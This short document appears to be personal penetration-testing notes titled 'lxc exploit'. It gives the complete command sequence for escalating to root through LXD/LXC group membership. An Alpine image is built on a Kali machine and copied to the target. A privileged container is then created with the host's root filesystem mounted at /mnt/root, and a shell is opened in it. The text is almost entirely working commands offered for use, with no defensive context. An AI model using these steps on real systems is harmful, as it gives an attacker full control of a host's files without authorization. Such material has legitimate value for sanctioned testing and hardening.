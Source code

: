 **

# lxc exploit

**kali linux**

Create an image. The result is a .tar file containing image, which should be tranferred to the target
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine  
scp alpine.tar.gz bob@target:
```
I couldn't get it work with '-a i686', where i686 is the arhitecture
Set the appropriate arch if needed.


**target system**

```

lxc image import alpine.tar.gz --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc list
lxc config device add privesc host-root disk source=/ path=/mnt/root/
lxc start privesc
lxc exec privesc /bin/sh
```

NOTE: the root folder is now in /mnt/root/

/tmp on host becomes /mnt/root/tmp

etc.
